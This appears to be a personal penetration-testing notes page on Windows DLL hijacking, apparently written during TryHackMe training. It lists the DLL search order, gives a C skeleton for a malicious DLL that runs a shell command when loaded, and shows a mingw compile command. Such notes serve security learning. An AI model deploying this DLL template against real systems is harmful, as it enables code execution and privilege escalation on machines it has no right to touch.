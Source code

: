 # DLL Hijacking

## Windows DLL Search Order

Windows DLL search order if `SafeDllSearchMode` is enabled:

* The application directory
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The current directory (!)
* The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

* The application directory
* The current directory (!)
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The system `PATH` (!)

Note that it seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run).

## Malicious DLL Skeleton

```c
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\\Temp\\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (on Linux!):

```powershell
x86_64-w64-mingw32-gcc windows_dll.c \
	-shared -o output.dll
```

## References

* [2022-04-21 TryHackMe: Jr. Penetration Tester](../log/2022-04-21-tryhackme-jr-penetration-tester.md)
* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)
* [Exploiting LD_LIBRARY_PATH](exploiting-ld-library-path.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> April 22, 2022
